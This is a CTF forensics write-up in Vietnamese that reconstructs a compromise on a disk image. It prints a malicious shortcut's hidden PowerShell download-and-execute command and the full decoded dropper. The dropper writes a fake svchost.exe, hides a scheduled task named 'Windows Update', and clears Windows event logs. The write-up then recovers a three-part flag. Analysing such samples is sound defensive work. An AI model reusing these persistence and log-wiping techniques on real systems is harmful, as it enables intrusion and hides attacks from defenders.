









Đây là 1 bài CTF digital forensics đến từ cscv. Đề cho ta một file ad1 từ 1 máy tính bị xâm nhập. Flag nằm trong 3 mảnh khác nhau.
# PART 1
Đầu tiên, ta đi dạo 1 vòng các file. Ta thấy có 1 thư mục cv, 1 file winrar.exe,... có thể là đáng nghi. Ta sẽ phân tích file cv do file exe check trên VirusTotal là liêm.



Chạy `exiftool` với 2 file `cv`
```
nqghuy@nqghuy ~/C/f/c/anotherday> file cv.pdf*
cv.pdf:     PDF document, version 1.7, 2 page(s)
cv.pdf.lnk: MS Windows shortcut, Item id list present, Points to a file or directory, Has Description string, Has command line arguments, Icon number=70, Unicoded, HasExpIcon "%SystemRoot%\System32\shell32.dll", MachineID desktop-9gkqdg1 KnownFolderID 1AC14E77-02E7-4E5D-B744-2EB1AE5198B7, Archive, ctime=Mon Jul 21 20:42:26 2025, atime=Tue Nov 11 10:59:41 2025, mtime=Mon Jul 21 20:42:26 2025, length=455680, window=normal, IDListSize 0x020d, Root folder "20D04FE0-3AEA-1069-A2D8-08002B30309D", Volume "C:\", LocalBasePath "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```
Như vậy file cv.pdf.lnk là không liêm, nó có chứa powershell

```
nqghuy@nqghuy ~/C/f/c/anotherday> exiftool cv.pdf.lnk
ExifTool Version Number         : 12.76
File Name                       : cv.pdf.lnk
Directory                       : .
File Size                       : 2.3 kB
File Modification Date/Time     : 2025:11:12 01:09:52+07:00
File Access Date/Time           : 2025:12:03 20:10:24+07:00
File Inode Change Date/Time     : 2025:11:15 16:23:38+07:00
File Permissions                : -rw-------
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, Description, CommandArgs, IconFile, Unicode, ExpIcon
File Attributes                 : Archive
Create Date                     : 2025:07:22 10:42:26+07:00
Access Date                     : 2025:11:12 00:59:41+07:00
Modify Date                     : 2025:07:22 10:42:26+07:00
Target File Size                : 455680
Icon Index                      : 70
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Drive Serial Number             : CEA7-3929
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Description                     : Document
Command Line Arguments          : -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "IEX(IRM 'https://gist.githubusercontent.com/oumazio/16f129048eb2e53c07c436592821e3bb/raw/a853270425582a8156c8eaac31c26e3ad4296655/easter_egg')"
Icon File Name                  : C:\Windows\System32\shell32.dll
Machine ID                      : desktop-9gkqdg1
```

Nhấp vào link và ta tìm được đoạn mã.


Giải mã trên CyberChef ta được


```
$ErrorActionPreference = 'SilentlyContinue'

function XOR-Decrypt {
    param([byte[]]$Data, [string]$Key)
    $keyBytes = [Text.Encoding]::UTF8.GetBytes($Key)
    $dec = New-Object byte[] $Data.Length
    for($i=0; $i -lt $Data.Length; $i++){
        $dec[$i] = $Data[$i] -bxor $keyBytes[$i % $keyBytes.Length]
    }
    return $dec
}

$key = "chieccupthu6danhchodoran"
$shiPath = "$PWD\.shi"
$backgroundPath = "$PWD\background.png"
$targetPath = "$env:ProgramData\svchost.exe"
$publicPictures = "$env:Public\Pictures\background.png"

if (Test-Path $shiPath) {
    $encrypted = [IO.File]::ReadAllBytes($shiPath)
    $decrypted = XOR-Decrypt -Data $encrypted -Key $key
    
    $a1=@(0x9c,0x81,0x77,0xc1,0x97,0x82,0x69,0xa1,0xae,0x8d,0x55,0x3c,0x59,0x78,0x8c,0xba,0xae,0x6f,0x9a,0x74,0xae,0x90,0x6e,0xd2,0x9b,0x80,0x89,0xde,0xaa,0x8a,0x8d,0x75,0x6d,0x90,0x84,0xaf,0x83,0xaf,0xa5,0xb9,0xc5,0xa7,0x98,0x7b,0x79,0xad,0x73,0xb0,0x89,0xdb,0x6a,0x85,0x8a,0xa8,0x4c,0x74);
    $a2=@(0x38,0x39,0x2e,0x47,0x3f,0x50,0x1b,0x2b,0x4c,0x21,0x1c,0x0c,0x0c,0x47,0x53,0x47,0x4d,0x18,0x44,0x44,0x56,0x5d,0x1c,0x59,0x37,0x2a,0x1e,0x64,0x48,0x1e,0x54,0x45,0x1f,0x49,0x18,0x49,0x21,0x42,0x31,0x51,0x61,0x51,0x5f,0x12,0x2c,0x56,0x3e,0x3e,0x31,0x61,0x28,0x51,0x25,0x52,0x14,0x37);
    $decoded = -join ($a1[0..($a2.Length-1)] | ForEach-Object -Begin {$i=0} -Process {[char]($_ - $a2[$i++])})
    
    [IO.File]::WriteAllBytes($targetPath, $decrypted)
    
    if (Test-Path $backgroundPath) {
        Copy-Item $backgroundPath $publicPictures -Force
    }
    
    $action = New-ScheduledTaskAction -Execute $targetPath
    $trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 30) -RepetitionDuration (New-TimeSpan -Days 365)
    $settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries -StartWhenAvailable -Hidden
    Register-ScheduledTask -TaskName 'Windows Update' -Action $action -Trigger $trigger -Settings $settings -Force | Out-Null
    
    Start-ScheduledTask -TaskName 'Windows Update'
    
    if (Test-Path $shiPath) { Remove-Item $shiPath -Force -ErrorAction SilentlyContinue }
    if (Test-Path "$PWD\cv.pdf.lnk") { (Get-Item "$PWD\cv.pdf.lnk" -Force).Attributes = 'Hidden' }
    if (Test-Path $backgroundPath) { Remove-Item $backgroundPath -Force -ErrorAction SilentlyContinue }
    
    wevtutil cl System
    wevtutil cl Security
    wevtutil cl Application
    wevtutil cl "Windows PowerShell"
    wevtutil cl "Microsoft-Windows-PowerShell/Operational"
    
    if (Test-Path "$PWD\cv.pdf") {
        Start-Process "$PWD\cv.pdf"
    }
}
```

Phân tích đoạn mã:
* Key là "chieccupthu6danhchodoran"
* 2 mảng a1 và a2
* file decoded là a1[i] - a2[i] 
* Lấy các file .shi và background,... xử lí các thứ và ghi vào file $env:ProgramData\svchost.exe
* Tạo task dưới tên Windows Update
* Xóa các file evtx
* chạy cv.pdf để đánh lừa


Tiến hành giải mã biến decoded
```
$a1=@(0x9c,0x81,0x77,0xc1,0x97,0x82,0x69,0xa1,0xae,0x8d,0x55,0x3c,0x59,0x78,0x8c,0xba,0xae,0x6f,0x9a,0x74,0xae,0x90,0x6e,0xd2,0x9b,0x80,0x89,0xde,0xaa,0x8a,0x8d,0x75,0x6d,0x90,0x84,0xaf,0x83,0xaf,0xa5,0xb9,0xc5,0xa7,0x98,0x7b,0x79,0xad,0x73,0xb0,0x89,0xdb,0x6a,0x85,0x8a,0xa8,0x4c,0x74);
    $a2=@(0x38,0x39,0x2e,0x47,0x3f,0x50,0x1b,0x2b,0x4c,0x21,0x1c,0x0c,0x0c,0x47,0x53,0x47,0x4d,0x18,0x44,0x44,0x56,0x5d,0x1c,0x59,0x37,0x2a,0x1e,0x64,0x48,0x1e,0x54,0x45,0x1f,0x49,0x18,0x49,0x21,0x42,0x31,0x51,0x61,0x51,0x5f,0x12,0x2c,0x56,0x3e,0x3e,0x31,0x61,0x28,0x51,0x25,0x52,0x14,0x37);
    $decoded = -join ($a1[0..($a2.Length-1)] | ForEach-Object -Begin {$i=0} -Process {[char]($_ - $a2[$i++])})
```
Giải mã ta có được
```
nqghuy@nqghuy ~/C/f/c/anotherday> py decode.py
b'tr3_con_t3_liet_truY3n_t4i_nkau_b1nk_0xy_'
nqghuy@nqghuy ~/C/f/c/anotherday> cat decode.py 
import base64
a1=[0x9c,0x81,0x77,0xc1,0x97,0x82,0x69,0xa1,0xae,0x8d,0x55,0x3c,0x59,0x78,0x8c,0xba,0xae,0x6f,0x9a,0x74,0xae,0x90,0x6e,0xd2,0x9b,0x80,0x89,0xde,0xaa,0x8a,0x8d,0x75,0x6d,0x90,0x84,0xaf,0x83,0xaf,0xa5,0xb9,0xc5,0xa7,0x98,0x7b,0x79,0xad,0x73,0xb0,0x89,0xdb,0x6a,0x85,0x8a,0xa8,0x4c,0x74]
a2=[0x38,0x39,0x2e,0x47,0x3f,0x50,0x1b,0x2b,0x4c,0x21,0x1c,0x0c,0x0c,0x47,0x53,0x47,0x4d,0x18,0x44,0x44,0x56,0x5d,0x1c,0x59,0x37,0x2a,0x1e,0x64,0x48,0x1e,0x54,0x45,0x1f,0x49,0x18,0x49,0x21,0x42,0x31,0x51,0x61,0x51,0x5f,0x12,0x2c,0x56,0x3e,0x3e,0x31,0x61,0x28,0x51,0x25,0x52,0x14,0x37]
s = ""
for i in range (0, len(a1)):
    s += chr(a1[i] - a2[i])

print(base64.b64decode(s))
```
Ta có 1 flag đầu tiên b'tr3_con_t3_liet_truY3n_t4i_nkau_b1nk_0xy_'
# PART 2
Tiếp đến, ta tìm đến file svchost.exe, sử dụng dnSpy.exe để phân tích


Ở hàm Load../assets/img/posts/Another_day/imageSettings, Biến đối input bằng rot13, ta có được đường dẫn là file background.png. Hàm lấy chunk(IDAT) đầu tiên của ../assets/img/posts/Another_day/image với độ dài nào đó, kết hợp với 2 biến là Processor_Architecture và Processor_Version để tạo shellcode. Mình tìm 2 biến đầu tại Windows/System32/config/System và dùng Registry Explorer để lấy 2 biến.

Sau khi giải mã được shellcode thì mình phát hiện ra shellcode nằm phần Resources :((. Sử dụng IDA để phần tích ta có được flag part 2:


                                                            
Ta tìm được các mảnh strings là                               
"ain.haha"
"fakedoam"
"0n_tunq"
"_884844"
"part2: s"
"unq_mtP_"

Có vẻ như là link url nào đó và 
part2: s0n_tunq_mtP_884844
# PART 3
Xong part 2, mình không biết hướng đi tìm tiếp part 3 ở đâu thì hỏi sự trợ giúp. Part 3 nằm trong log. Lọc filter log 4104 và thấy được dòng log tạo user

part3: kirit0kun_8142b5a11e55c693

| FLAG: cscv{tr3_con_t3_liet_truY3n_t4i_nkau_b1nk_0xy_s0n_tunq_mtP_884844_kirit0kun_8142b5a11e55c693}